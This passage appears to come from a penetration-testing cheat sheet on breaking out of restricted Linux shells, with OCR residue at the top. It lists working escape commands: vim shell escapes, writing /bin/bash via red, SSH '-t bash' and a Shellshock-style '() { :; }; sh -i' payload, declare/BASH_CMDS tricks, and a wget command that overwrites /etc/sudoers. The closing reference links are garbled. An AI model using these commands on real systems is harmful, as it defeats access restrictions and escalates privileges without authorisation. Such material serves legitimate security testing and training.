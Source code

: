 ```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

### Using vim

```bash
:set shell=/bin/sh
:shell
```

### Create script

Check if you can create an executable file with _/bin/bash_ as content

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

### Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

### Declare

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

### Wget

You can overwrite for example sudoers file

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

### Other tricks

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells**](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/**](https/gtfobins.github.io)\
**It could also be interesting the page:**
